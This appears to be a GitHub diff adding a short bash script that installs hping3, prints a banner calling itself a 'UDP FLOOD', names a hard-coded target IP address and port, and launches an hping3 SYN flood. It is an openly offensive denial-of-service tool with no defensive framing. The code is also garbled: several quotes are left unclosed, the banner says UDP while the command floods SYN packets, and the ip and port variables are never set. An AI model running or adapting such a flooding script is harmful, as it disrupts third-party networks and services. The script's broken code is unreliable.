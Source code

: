@ -0,0 +1,24 @@
#!/bin/bash

sudo apt-get install hping3
clear
echo """ █████  █████ ██████████   ███████████     ███████████ █████          ███████       ███████    ██████████  
░░███  ░░███ ░░███░░░░███ ░░███░░░░░███   ░░███░░░░░░█░░███         ███░░░░░███   ███░░░░░███ ░░███░░░░███ 
 ░███   ░███  ░███   ░░███ ░███    ░███    ░███   █ ░  ░███        ███     ░░███ ███     ░░███ ░███   ░░███
 ░███   ░███  ░███    ░███ ░██████████     ░███████    ░███       ░███      ░███░███      ░███ ░███    ░███
 ░███   ░███  ░███    ░███ ░███░░░░░░      ░███░░░█    ░███       ░███      ░███░███      ░███ ░███    ░███
 ░███   ░███  ░███    ███  ░███            ░███  ░     ░███      █░░███     ███ ░░███     ███  ░███    ███ 
 ░░████████   ██████████   █████        ██ █████       ███████████ ░░░███████░   ░░░███████░   ██████████  
  ░░░░░░░░   ░░░░░░░░░░   ░░░░░        ░░ ░░░░░       ░░░░░░░░░░░    ░░░░░░░       ░░░░░░░    ░░░░░░░░░░   
                                                                                                           
                                                                                                           
                                                                                                           """
echo
echo "UDP FLOOD by Andromeda 403 | 403 Forbidden"
echo
echo
echo "Target IP:162.19.154.24
echo
echo "Target Port:7788
echo "SENDING ATTACK TO $ip in PORT $port | TO STOP: CTRL + C..."
sudo hping3 -S --flood -V -p $port $ip
